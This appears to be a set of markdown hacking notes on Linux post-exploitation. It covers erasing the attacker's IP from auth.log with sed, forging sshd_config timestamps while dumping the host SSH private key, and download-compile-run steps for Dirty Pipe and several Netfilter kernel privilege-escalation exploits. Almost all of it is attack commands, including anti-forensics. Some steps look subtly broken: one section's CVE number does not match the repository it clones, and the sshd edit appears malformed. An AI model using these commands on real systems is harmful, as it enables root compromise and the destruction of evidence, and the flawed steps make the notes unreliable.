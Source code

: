 if stealth is needed only edit files in `/dev/shm` as this is in memory and no logs will be created
### Removing our IP from access logs:
`sed -i "/<ip>/d" /var/log/auth.log`

### Add SSH key without editing timestamp
**Requires root**
1. Copies timestamp of `sshd-config` to `/dev/shm/.f`
2. Adds the root ssh key to the Auth Keys file. 
3. Restarts ssh daemon
4. Reverts the timestamp
5. Removes `/dev/shm/.f`
6. Cats the root ssh key to copy 

Copy the timestamp of the ssh_configs timestamp 
```shell
touch -r /etc/ssh/sshd_config /dev/shm/.f; sed -i '/^#AuthorizedKeysFile/ s/^#//' /etc/ssh/sshd_config && sed -i '/^AuthorizedKeysFile/ s/$/ \/etc\/ssh\/sshd_config/' /etc/ssh/sshd_config; systemctl reload sshd; touch -r /dev/shm/.f /etc/ssh/sshd_config; rm /dev/shm/.f; cat /etc/ssh/ssh_host_rsa_key
```
Copy the ssh key to local machine
```shell
chmod 600 <file>
```
```shell
ssh -i key root@<IP>
```

## Dirty Pipe
**CVE-2022-0847**
* Affects kernel versions 5.8 - 5.17
* Android phones are affected
```shell
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```
Exploit 1 modifies the `/etc/passwd` and allows root privileges
Exploit 2 can execute SUID binaries with root privilges. 
```shell
./exploit-2 /usr/bin/sudo
```
## Netfilter
* Linux kernel module that provides, packet filtering, network address translation, and more. 

Has 3 main functions
1. Packet defragmentation
2. Connection Tracking
3. NAT
* When activated, all IP packets are checked by `netfilter`
### CVEs
1. [CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)
2. [CVE-2022-1015](https://github.com/pqlx/CVE-2022-1015)
3. [CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233)

#### CVE-2021-22555
Kernel Version 2.6-5.11
```shell
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
gcc -m32 -static exploit.c -o exploit
./exploit
```
#### CVE-2022-1015
Kernel Version 5.4-5.6.10
```shell
git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
make
./exploit
```
#### CVE-2023-32233
Kernel version up to 6.3.1
```shell
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
./exploit
```